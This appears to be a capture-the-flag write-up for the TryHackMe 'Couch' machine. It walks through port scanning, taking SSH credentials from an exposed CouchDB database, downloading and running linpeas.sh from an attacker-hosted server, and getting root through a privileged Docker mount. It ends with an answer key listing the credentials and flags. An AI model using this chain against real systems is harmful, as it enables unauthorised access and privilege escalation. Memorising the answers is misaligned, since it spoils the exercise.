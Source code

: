 # Couch - Easy

```shell
rustscan -a 10.10.49.92 --range 0-65535 --ulimit 5000 -- -sV

feroxbuster -u http://10.10.49.92:5984 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2

ssh atena@10.10.49.92
#use creds found in secret db

cat user.txt

#in attacker machine
python3 -m http.server

#in victim ssh
cd /tmp

wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#check history
history
#contains docker command

docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
#this gives us root

find / -name root.txt 2>/dev/null

cat /mnt/root/root.txt
```

```markdown
Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 5984 - http - CouchDB httpd 1.6.1

We can check the website while enumerating web directories using feroxbuster.

We can see that the webpage has only JSON data to print; we can check for other directories.

Directories found:

  * /_utils
  * /_stats
  * /_config

While /_stats and /_config mostly contain JSON data, /_utils has an interface with multiple sections; we can check this page for more clues.

In the overview section, there are multiple databases; one database 'secret' contains creds.

We can try to login using these creds into SSH, and we succeed.

We can use linpeas.sh to check for privesc.

linpeas shows many history commands; we can check history for any commands.

'history' shows us many commands; one docker command stands out as it contains the flag 'privileged'.

On running that particular command, we get root shell; we can find and print root flag now.
```

1. How many ports are open? - 2

2. What is the database management system installed on the server? - CouchDB

3. What port is the database management system running on? - 5984

4. What is the version of the management system installed on the server? - 1.6.1

5. What is the path for the web administration tool for this database management system? - _utils

6. What is the path to list all databases in the web browser of the database management system? - _all_dbs

7. What are the credentials found in the web administration tool? - atena:t4qfzcc4qN##

8. Compromise the machine and locate user.txt - THM{1ns3cure_couchdb}

9. Escalate privileges and obtain root.txt - THM{RCE_us1ng_Docker_API}
